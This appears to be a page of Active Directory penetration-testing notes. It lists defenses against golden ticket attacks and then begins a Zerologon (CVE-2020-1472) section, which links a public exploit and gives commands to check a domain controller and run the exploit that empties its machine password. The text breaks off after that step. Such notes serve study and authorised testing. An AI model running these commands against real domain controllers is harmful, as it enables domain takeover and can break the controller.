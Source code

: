 You can take one or more of these steps to protect against golden ticket attacks.

1.  Enforce a least privilege access model.

    -   Limit user access to only what they need.
    -   Limit the amount of admin accounts to only those who absolutely need it and ensure admin access is not simply added to their day-to-day user account.

2.  Implement multi-factor authentication (MFA) on all external authentication points, including VPN and OWA/O365.

3.  Don’t have RDP open to the internet. Seriously. Port numbers don’t matter. Get RDP behind a VPN, and implement MFA on it.

4.  Fake credentials can be injected into the LSAS cache, which would be tempting to hackers. Seeing these “honeycreds” used would clearly indicate an issue.

5.  Perform the reset of the krbtgt account (twice) in accordance with your password reset policies, or quarterly.

6.  If possible, consider running LSAS in its available protected mode.

7.  Enable Windows Defender Credential Guard on applicable systems (Windows 10 and Server 2016 and above). Do not use on domain controllers.

<div style="page-break-after: always;"></div>
<br>

## Zero-Logon

---

### aka CVE-2020-1472

**Attacking** the Domain Controller, **Setting** the **Password** to **null** and taking over the Domain Controller.

**Issue:** When we run the Attack, **and if we do not restore it, we break it **


### Resources

https://github.com/dirkjanm/CVE-2020-1472

<br>

### Exploit

Check if Vulnerable

	python3 zerologon.py COMPUTERNAME {dcip}

Now Let's Attack

	python3 cve-2020-1472-exploit.py COMPUTERNAME {dcip}

Changed the Account Password to an Empty String

How can we know that this is done??
